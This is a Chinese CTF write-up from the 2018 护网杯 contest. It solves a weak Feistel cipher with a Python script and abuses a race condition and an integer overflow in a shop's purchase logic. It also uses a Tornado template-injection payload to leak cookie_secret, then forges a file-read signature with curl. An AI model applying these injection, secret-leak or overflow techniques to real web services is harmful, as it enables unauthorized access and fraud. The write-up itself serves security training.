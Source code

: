 ```yaml
---
toc: true
comments: true
title: 护网杯解题记录
category: writeup
date: 2018-10-13 21:17:37
---
```


![1539436751699](1539436751699.png)
# FEZ

```python
import os
def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
def f(x,k):
    return xor(xor(x,k),7)
def round(M,K):
    L=M[0:27]
    R=M[27:54]
    new_l=R
    new_r=xor(xor(R,L),K)
    return new_l+new_r
def fez(m,K):
    for i in K:
        m=round(m,i)
    return m

K=[]
for i in range(7):
    K.append(os.urandom(27))
m=open("flag","rb").read()
assert len(m)<54
m+=os.urandom(54-len(m))

test=os.urandom(54)
print test.encode("hex")
print fez(test,K).encode("hex")
print fez(m,K).encode("hex")
```

假设最后一轮结束后高低字节分别为l,r，可逐轮逆推出上一轮的值，从而得到明文和密文的关系。由已知的一组test明文密文对，可得到flag的明文。

| round | left                         | right                 |
| ----- | ---------------------------- | --------------------- |
| 0     | l^r^k[0]^k[1]^k[3]^k[4]^k[6] | l^k[1]^k[2]^k[4]^k[5] |
| 1     | l^k[1]^k[2]^k[4]^k[5]        | r^k[2]^k[3]^k[5]^k[6] |
| 2     | r^k[2]^k[3]^k[5]^k[6]        | l^r*k[3]^k[4]^k[6]    |
| 3     | l^r*k[3]^k[4]^k[6]           | l^k[4]^k[5]           |
| 4     | l^k[4]^k[5]                  | r^k[5]^k[6]           |
| 5     | r^k[5]^k[6]                  | r^l^k[6]              |
| 6     | r^l^k[6]                     | l                     |
| 7     | l                            | r                     |

```python
# -*- coding: utf-8 -*-
# __author__ = findneo

def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
all_xor = lambda x:reduce(xor,x)
test_plain="c8b84d08e5a8e60a49578f387fff5a90e9e7c181734bf05be4f5403c9ea24a0b8741a329991637e11fa69019cd3b01d7c95b65f5abd5"
test_cipher="5c3660c27cb9b3785a5ce06022e88bc831017e882d39475ea85d919ad9e5ac498f86c553216cab1f8f7468353d46ba8971efa9ca8c81"
flag_cipher="519ab6fc0e435da00516b844f8fe664bfe9445992f478dc650701739a11ffda5bbeb643159d7e8cd03a2104c798a1ca734b905ee6c76"

p=test_plain.decode("hex")
c=test_cipher.decode("hex")
f=flag_cipher.decode("hex")

l,r=c[0:27],c[27:54]
pl,pr=p[0:27],p[27:54]
fl,fr=f[0:27],f[27:54]
fcl=all_xor([l,r,pl,fl,fr])
fcr=all_xor([l,pr,fl])
flag=fcl+fcr
print flag
#flag{festel_weak_666_plo88112tty}�{v�N;	K�X
```

# LTSHOP

使用burp的intruder竞争买大辣条，得到超过五个大辣条。

![1539428933786](1539428933786.png)

然后买 `2**64/5+1` 个辣条王，使得需要付的大辣条多到uint装不下，向上溢出为负数，我们就买得起很多的辣条王了，实现一夜暴富。

![1539429086591](1539429086591.png)

然后flag就随便买了。

![1539429113491](1539429113491.png)

![1539437436657](1539437436657.png)

# easy_tornado

有三个提示：

```html
http://49.4.78.9:31465/file?filename=flag.txt&signature=95660d430a8ad05fc7337d12e6a08b1a
render()
md5(cookie_secret + md5(filename))
/fllllllllllag
```

报错页面存在SSTI，访问`http://49.4.78.9:31465/error?msg={{handler.settings}}` 得到配置信息。

```html
Whoops, looks like somethings went wrong . 
{'login_url': '/login', 'template_path': 'templates', 'xsrf_cookies': True, 'cookie_secret': 'pGD*~9Y]N?>5zBvS_3768U+O}<#^k@oM$grqZQ4!yK1ucVnijmRJlFwI%hP(0exE', 'debug': False, 'file_path': '/www/static/files', 'static_path': 'static'}
```

得到cookie_secret，即可构造签名读取flag。

```bash
abc@xyz:~$ curl "http://49.4.78.9:31465/file?filename=/fllllllllllag&signature=8f270fa794962fa2ec4e63e6b03a830b" -s | grep flag
flag{59a95928373bfa789e06635d2d5e9459}
```

参考：https://www.cnblogs.com/bwangel23/p/4858870.html